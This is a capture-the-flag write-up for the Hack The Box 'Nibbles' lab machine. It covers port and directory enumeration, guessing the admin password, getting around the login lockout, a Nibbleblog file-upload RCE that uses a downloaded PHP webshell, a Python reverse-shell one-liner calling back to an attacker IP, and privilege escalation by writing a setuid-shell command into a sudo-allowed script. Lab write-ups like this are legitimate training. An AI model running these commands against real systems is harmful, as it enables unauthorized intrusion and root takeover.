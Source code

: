 # Summary



## about target

tip:  10.129.118.126

hostname: Nibbles

Difficulty:  Easy



## about attack

+ http enum, source code found the path; nibblesblog enum found version and exploit (need creds); brute force and bypass lock or guess with the name of web name(nibbles); sudo -l privesc.
+ guess the password,  common weak password and the web/hosts name.





**attack note**

```bash

PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

http enum 
page source, got dir /nibbleblog

dir scan, gobuster/dirb
gobuster dir -u http://$tip/nibbleblog -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 40 -o gobuster.txt

login page, /admin.php
version, 4.0.3; /README

block ip for 5 wrong password.
bypass: https://eightytwo.net/blog/brute-forcing-the-admin-password-on-nibbles/

exploit, file upload and rce, need creds
https://github.com/dix0nym/CVE-2015-6967
https://www.exploit-db.com/exploits/38489


sudo -l, found nopasswd run monitor.sh

modify the sh.
echo "cp /bin/sh /tmp/sh; chmod +s /tmp/sh" > monitor.sh

run 
sudo ./monitor.sh

got root.

```







# Enumeration

## nmap scan

light scan

```bash
nmap -p- --min-rate=1000 -T4 -oN nmap.light $tip

# Nmap 7.92 scan initiated Sat Sep 24 09:56:21 2022 as: nmap -p- -Pn --min-rate=500 -T4 --open -oN nmap.light 10.129.118.126
Nmap scan report for 10.129.118.126
Host is up (0.33s latency).
Not shown: 64645 closed tcp ports (conn-refused), 888 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

# Nmap done at Sat Sep 24 09:57:51 2022 -- 1 IP address (1 host up) scanned in 89.61 seconds

```



# Exploitation

creds guess,  web server name nibbles.



brute force the lock, x-forwarded-for.  [read more](https://eightytwo.net/blog/brute-forcing-the-admin-password-on-nibbles/)

the lock count record in file 

http://10.129.118.126/nibbleblog/content/private/users.xml



lock count in config  http://10.129.118.126/nibbleblog/admin/boot/rules/3-variables.bit

![image-20220924140110004](./images/image-20220924140110004.png)

bypass the brute force.

```bash
 python nibblecrack.py
```



![image-20220924135551542](./images/image-20220924135551542.png)



activate plugins, my image

![image-20220924111653452](./images/image-20220924111653452.png)



upload webshell.php

```bash
wget https://raw.githubusercontent.com/WhiteWinterWolf/wwwolf-php-webshell/master/webshell.php
```



![image-20220924111610114](./images/image-20220924111610114.png)

check the php file, and execute id

http://10.129.118.126/nibbleblog/content/private/plugins/my_image/image.php

![image-20220924111756441](./images/image-20220924111756441.png)



```python
python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.10.14.15",4444));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")'
```

![image-20220924112503991](./images/image-20220924112503991.png)





# Privesc



## Post Enumeration

sudo -l , found nopasswd execute script.

```bash
sudo -l
```

![image-20220924135724419](./images/image-20220924135724419.png)

## System



unzip the file in home dir, change the file and privesc.

```bash
# modify the sh.
echo "cp /bin/sh /tmp/sh; chmod +s /tmp/sh" > monitor.sh

# run 
sudo ./monitor.sh
```



![image-20220924114845109](./images/image-20220924114845109.png)



# kernel exploit

enum with linux-exploit-suggester.sh,  https://github.com/mzet-/linux-exploit-suggester

```bash
[+] [CVE-2018-1000001] RationalLove

   Details: https://www.halfdog.net/Security/2017/LibcRealpathBufferUnderflow/
   Exposure: less probable
   Tags: debian=9{libc6:2.24-11+deb9u1},ubuntu=16.04.3{libc6:2.23-0ubuntu9}
   Download URL: https://www.halfdog.net/Security/2017/LibcRealpathBufferUnderflow/RationalLove.c
   Comments: kernel.unprivileged_userns_clone=1 required

```





## proof

```bash


```

![image-20220924114822827](./images/image-20220924114822827.png)

